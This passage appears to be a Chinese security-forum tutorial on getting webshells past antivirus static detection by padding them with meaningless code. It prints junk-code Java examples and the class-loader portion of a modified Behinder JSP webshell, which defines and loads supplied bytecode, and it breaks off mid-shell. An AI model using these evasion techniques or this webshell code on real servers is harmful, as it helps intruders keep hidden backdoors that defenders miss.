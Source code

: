 1.静态查杀绕过原理
----------

顾名思义静态查杀就是杀软会检查webshell文件的内容，提取的文件特征将与已知的恶意模式进行比对。这些恶意模式可以是已知的病毒特征、恶意软件代码片段等。比如正则表达式检测是否有危险函数这种。绕过的原理也很简单，就是让杀软的规则无法匹配到恶意代码。

2.添加毫无意义的代码
-----------

填充毫无意义的代码目的是在不改变代码本身功能的情况下修改代码的特征使得杀毒软件匹配特征规则失败。

现在用冰蝎的jsp马举个例子，默认的webshell上传vt可以看到。  
vt：<https://www.virustotal.com/gui/home/upload>

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-77d16d2033bb58b557023115aa5bf8e06b876014.png)

然后冰蝎的jsp代码也比较简短。

![1697709623097.jpg](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-e936e2150b746c300d07f06c226191f49214c573.jpg)

比如原本的代码

```java
String k = "xxxxxxxx";

// 可以修改成  因为
String k = "";
if (21174 &lt; 18818181){
    k = "xxxxxx";
}

// 或者在前面添加毫无意义的代码
float f = 314141.14f;
if (1231241 &gt; 12312){
    f += 12314.11f;
}
String k = "xxxxxxxx";

```

加了一堆代码后的shell：

```jsp
&lt;%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %&gt;
&lt;%!
    class U extends ClassLoader {
        String AA = "AAAAAAA";
        String BB = "BBBBBBB";
        String CC = "CCCCCCC";
        U(ClassLoader c) {
            super(c);
            if (1929341894&gt; 12313){
                boolean b = 18288 % 10 == 2;
            }
        }
        public Class g(byte[] b) {
            if (2 &gt; 100){
                String aa = "AAAAAAA";
                int s = 1929341894 - 12313;
                aa = aa + s;
            }else {
                String cc = "ccccccc";
            }
            return super.defineClass(b, 0, b.length);
        }
    }
%&gt;&lt;%
```